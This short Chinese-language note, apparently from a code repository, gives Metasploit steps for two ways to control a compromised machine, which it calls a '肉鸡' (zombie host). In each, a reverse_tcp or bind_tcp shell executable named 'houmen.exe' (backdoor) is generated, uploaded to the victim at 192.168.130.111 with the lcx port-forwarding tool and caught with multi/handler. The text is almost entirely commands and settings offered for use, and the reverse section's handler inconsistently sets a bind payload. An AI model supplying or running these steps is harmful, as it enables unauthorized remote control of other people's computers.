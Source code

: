 俩种连接方式
=========

1. Reverse 

> 用msf生成一个reverse类型的exe,如下设置:

    ```shell
    payload: windows/shell/reverse_tcp
    rhost: 192.168.130.111[肉鸡本身的内网ip]
    lport: 1234
    ```
假设生成houmen.exe

>将lcx和上面生成的houmen.exe上传到肉鸡192.168.130.111,运行:

    ```shell
    lcx -listen 300 1234
    houmen.exe
    ```
> 在控制端msf中运行:

    ```shell
    use multi/handler
    set payload windows/shell/bind_tcp
    set rhost 192.168.130.111
    set lport 300
    run -j
    ```

2. Bind

> 用msf生成一个bind类型的exe,如下设置:

```shell
payload: windows/shell/bind_tcp
lport: 1111
```

假设生成houmen.exe

> 将houmen.exe上传到肉鸡192.168.130.111,运行: houmen.exe

> 在控制端msf中运行:

```shell
use multi/handler
set payload windows/shell/bind_tcp
set rhost 192.168.130.111
set lport 1111
run -j
```

上面3个步骤完成后即可成功连接肉鸡